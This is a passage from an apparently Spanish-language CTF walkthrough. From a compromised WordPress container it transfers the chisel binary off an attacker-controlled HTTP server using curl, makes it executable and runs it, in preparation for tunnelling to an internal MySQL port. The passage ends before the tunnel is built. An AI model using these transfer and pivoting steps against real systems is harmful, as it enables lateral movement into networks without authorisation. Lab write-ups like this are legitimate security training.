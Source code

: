 ~~~ bash
define( 'DB_HOST', '172.17.0.1' );
~~~


## Port Forwarding - `chisel` (Container)

No disponemos del comando `mysql` para conectarnos a `172.17.0.1` desde el contenedor, ni una conexión por `ssh` con credenciales para facilitar un `Port Forwarding.

Utilizaremos la herramienta `chisel` para **crear un túnel** que comunique el puerto `3306` de la IP `172.17.0.1` (el que esperamos alcanzar), con un puerto de nuestra máquina atacante.

- Primeramente descargaremos `chisel` ya sea desde un binario pre-compilado o compilado por nosotros
- Luego transferiremos el binario a la máquina víctima, por ejemplo usando un servidor HTTP

> Considera usar un binario compilado de `chisel`, lo puedes compilar tú mismo o descargar un recurso de `Github` pre-compilado
{: .notice--danger}

- https://github.com/jpillora/chisel

~~~ bash
www-data@8e3a72b5e980:/var/www/html/wordpress$ curl http://10.10.15.9/chisel -o chisel
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 8792k  100 8792k    0     0  1394k      0  0:00:06  0:00:06 --:--:-- 1711k
~~~

Desde nuestro servidor HTTP deberíamos haber recibido la solicitud correctamente

~~~ bash
python3 -m http.server 80                                                                                               
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.52 - - [03/May/2025 13:59:46] "GET /chisel HTTP/1.1" 200 -
~~~

Le daremos permisos de ejecución y iniciaremos con una ejecución para comprobar que funcione

~~~ bash
www-data@8e3a72b5e980:/var/www/html/wordpress$ chmod +x chisel 
www-data@8e3a72b5e980:/var/www/html/wordpress$ ./chisel 

  Usage: chisel [command] [--help]

  Version: 0.0.0-src (go1.22.9)

  Commands:
    server - runs chisel in server mode
    client - runs chisel in client mode

  Read more:
    https://github.com/jpillora/chisel
~~~
